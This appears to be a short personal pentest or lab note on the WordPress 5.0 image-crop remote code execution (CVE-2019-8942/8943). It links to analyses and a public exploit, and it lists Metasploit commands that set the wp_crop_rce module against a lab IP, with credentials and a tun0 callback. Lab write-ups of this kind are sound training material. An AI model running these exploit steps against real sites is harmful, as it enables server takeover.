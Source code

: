 ```yaml
---
layout: post
title: Wordpress 5 RCE
description: Wordpress 5 RCE
summary: Wordpress 5 RCE
tags: [rce,wordpress,foothold,web]
minute: 1
---
```

**This attack is very complicated and hard to understand for beginners**

* [WordPress 5.0.0 Remote Code Execution](https://blog.sonarsource.com/wordpress-image-remote-code-execution?redirect=rips)
* [The detailed analysis of WordPress 5.0 RCE - by Knownsec 404 team](https://medium.com/@knownsec404team/the-detailed-analysis-of-wordpress-5-0-rce-a171ed719681)
* [Analysis of a WordPress Remote Code Execution Attack - Pentest-Tools.com Blog](https://pentest-tools.com/blog/wordpress-remote-code-execution-exploit-cve-2019-8942/)
* [CVE-2019-8943 exploit by v0lck3r](https://github.com/v0lck3r/CVE-2019-8943.git)
* Metasploit Commands

```bash
use exploit/multi/http/wp_crop_rce
set rhosts 10.10.188.55
set username kwheel
set password cutiepie1
set lhost tun0
```
